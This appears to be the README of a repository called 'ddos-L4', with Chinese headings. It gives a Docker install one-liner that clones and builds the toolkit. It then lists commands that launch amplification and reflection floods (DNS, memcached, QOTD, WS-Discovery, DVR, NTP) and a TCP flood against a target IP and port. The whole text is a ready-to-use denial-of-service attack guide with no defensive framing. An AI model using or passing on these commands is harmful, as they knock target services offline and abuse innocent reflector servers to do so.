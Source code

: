 ### 安装 （docker）
apt update -y && apt install docker.io -y && git clone https://github.com/qq1521575701/ddos-L4.git && cd ddos-L4 && docker build -t ddos-L4 . && docker run -itd --name ddos-L4 --network host ddos-L4:latest && docker exec -it ddos /bin/bash

### 使用
docker exec -it ddos-L4 ./dns ip port dns.txt 1 -1 60 &

docker exec -it ddos-L4 ./meme ip port meme.txt 1 -1 60 &

docker exec -it ddos-L4 ./qotd ip port qotd.txt 1 -1 60 &

docker exec -it ddos-L4 ./wsd ip port wsd.txt 1 -1 60 &

docker exec -it ddos-L4 ./dvr ip port dvr.txt 1 -1 60 &

docker exec -it ddos-L4 ./ntp ip port ntp.txt 1 -1 60 &

docker exec -it ddos-L4 ./tcp ip port 1 -1 60 &

